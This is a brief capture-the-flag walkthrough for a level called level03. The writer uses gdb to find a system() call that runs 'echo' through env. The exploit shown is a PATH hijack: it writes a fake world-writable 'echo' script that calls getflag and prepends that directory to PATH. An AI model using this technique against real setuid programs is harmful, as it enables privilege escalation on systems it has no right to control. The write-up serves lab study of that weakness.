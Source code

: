 ## Walkthrough :  
- i started debugging using gdb , and found a call to **system** function
- print the argument passed to system : *"/usr/bin/env echo Exploit me"*, it gets the program from the PATH
```
system : executes  a  command  specified in parameters
```
- so decided to change cancat my exploit to the path  
```
chmod 777 . && echo "getflag" >> echo && chmod 777 echo
```
```
export PATH=/home/user/level03/:$PATH
```
